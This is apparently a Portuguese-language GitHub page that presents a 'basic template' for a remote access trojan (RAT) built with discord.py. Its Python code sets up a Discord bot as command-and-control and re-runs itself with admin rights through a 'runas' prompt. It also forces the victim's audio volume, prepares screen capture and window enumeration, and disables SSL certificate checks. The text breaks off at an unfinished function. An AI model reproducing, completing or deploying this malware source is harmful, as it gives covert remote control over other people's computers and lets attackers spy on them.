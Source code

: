 Abaixo está o template básico para iniciar um RAT com discord.py.

```py

import discord
from discord.ext import commands
import ctypes
import sys
import os
import ssl
import asyncio
import platform
import urllib.request
import json
from ctypes import cast, POINTER
from comtypes import CLSCTX_ALL
from pycaw.pycaw import AudioUtilities, IAudioEndpointVolume
import win32gui
from mss import mss

################ HELP FUNCTIONS ################

def isAdmin():
    try:
        return (os.getuid() == 0)
    except AttributeError:
        return ctypes.windll.shell32.IsUserAnAdmin() != 0

def restart_as_admin():
    if not isAdmin():
        executable = sys.executable
        params = ' '.join([f'"{param}"' for param in sys.argv])
        ctypes.windll.shell32.ShellExecuteW(None, "runas", executable, params, None, 1)
        sys.exit()

def volumeup():
    devices = AudioUtilities.GetSpeakers()
    interface = devices.Activate(IAudioEndpointVolume._iid_, CLSCTX_ALL, None)
    volume = cast(interface, POINTER(IAudioEndpointVolume))
    if volume.GetMute() == 1:
        volume.SetMute(0, None)
    volume.SetMasterVolumeLevel(volume.GetVolumeRange()[1], None)

def volumedown():
    devices = AudioUtilities.GetSpeakers()
    interface = devices.Activate(IAudioEndpointVolume._iid_, CLSCTX_ALL, None)
    volume = cast(interface, POINTER(IAudioEndpointVolume))
    volume.SetMasterVolumeLevel(volume.GetVolumeRange()[0], None)

################# END HELP FUNCTIONS #################

################# VARIABLES #################

prefix = "!"
token = 'SEU_TOKEN_AQUI'
bot = commands.Bot(command_prefix=prefix, intents=discord.Intents.all(), help_command=None)
ssl._create_default_https_context = ssl._create_unverified_context
channel_name = None

################# END VARIABLES #################

################# Initialize #################

async def activity():
```
